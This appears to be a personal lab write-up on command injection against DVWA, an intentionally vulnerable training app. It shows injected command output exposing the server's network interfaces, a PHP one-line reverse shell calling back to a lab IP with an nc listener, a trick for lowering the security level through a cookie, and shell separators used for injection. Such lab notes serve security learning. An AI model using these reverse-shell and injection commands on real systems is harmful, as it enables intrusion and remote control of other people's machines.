


# Command Based Injections
Command injection is a cyber attack that involves executing arbitrary commands on a host operating system (OS). Typically, the threat actor injects the commands by exploiting an application vulnerability, such as insufficient input validation.

### DVWA - Command Injection

Security Level - LOW
```
PING 192.168.42.131 (192.168.42.131) 56(84) bytes of data.
64 bytes from 192.168.42.131: icmp_seq=1 ttl=64 time=4.22 ms
64 bytes from 192.168.42.131: icmp_seq=2 ttl=64 time=0.474 ms
64 bytes from 192.168.42.131: icmp_seq=3 ttl=64 time=0.209 ms
64 bytes from 192.168.42.131: icmp_seq=4 ttl=64 time=0.374 ms

--- 192.168.42.131 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3046ms
rtt min/avg/max/mdev = 0.209/1.320/4.223/1.678 ms
docker0: flags=4099  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:23:a6:77:63  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth0: flags=4163  mtu 1500
        inet 192.168.42.128  netmask 255.255.255.0  broadcast 192.168.42.255
        inet6 fe80::20c:29ff:feca:f770  prefixlen 64  scopeid 0x20
        ether 00:0c:29:ca:f7:70  txqueuelen 1000  (Ethernet)
        RX packets 1395101  bytes 1859019502 (1.7 GiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 232484  bytes 45814120 (43.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 18288  bytes 44876759 (42.7 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 18288  bytes 44876759 (42.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
We got the IP details about the server
- Reverse Shell - https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- PHP One Line Reverse Shell `php -r '$sock=fsockopen("192.168.42.128",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`
- Listen to the reverse Shell `nc -lvp 1234`

### Woohooooo!!!
> Damn, this is quite exciting, interesting....
- To crack the "Impossible", "Hard" change the cookie security value to low so php allows the command injection.

## Use - '&&', '&', ';' 
